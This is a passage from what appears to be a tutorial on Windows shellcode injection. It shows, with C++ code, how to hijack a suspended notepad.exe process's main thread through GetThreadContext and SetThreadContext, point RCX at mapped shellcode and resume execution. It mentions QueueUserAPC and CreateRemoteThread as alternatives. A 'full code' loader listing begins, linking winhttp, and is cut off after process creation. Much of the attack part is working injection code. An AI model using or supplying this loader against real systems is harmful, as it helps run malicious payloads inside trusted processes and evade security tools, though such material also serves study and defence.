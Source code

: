 Since this process was spawned in a suspended state, the shellcode could be executed using QueueUserAPC. This method would also be possible with a process that was already running, or one that wasn't spawned suspended - in which case we could use something like CreateRemoteThread. To show off another method we'll use GetThreadContext and SetThreadContext to hijack the primary thread of the process and point its execution somewhere else. 

The first step is to get the current context of the thread by initializing a new CONTEXT structure and calling GetThreadContext.

```
//get context of main thread
LPCONTEXT pContext = new CONTEXT();
pContext->ContextFlags = CONTEXT_INTEGER;
GetThreadContext(process_info->hThread, pContext);
```

The desired ContextFlags should be set first, which indicates what context information you want back. These aren't particularly well documented, but there are some comments in winnt header file. We're going to update the RCX register context, which means the context flags can be CONTEXT_INTEGER. You could also use CONTEXT_ALL in a pinch: [resource](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-arm64_nt_context)

Set the RCX register context to the memory location of the shellcode, call SetThreadContext and then resume the thread. 

```
//update rcx context
pContext->Rcx = (DWORD64)hRemoteAddress;
SetThreadContext(process_info->hThread, pContext);

//resume thread
ResumeThread(process_info->hThread);
```

Now we don't need the local process mapped region, so release it:
```
//unmap memory from local process
status = ntunmapViewOfSection(
GetCurrentProcess(),
hLocalAddress
);
```

Full code:
```
#include <Windows.h>
#include <winternl.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include "Native.h"

#pragma comment(lib, "winhttp.lib")

int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
```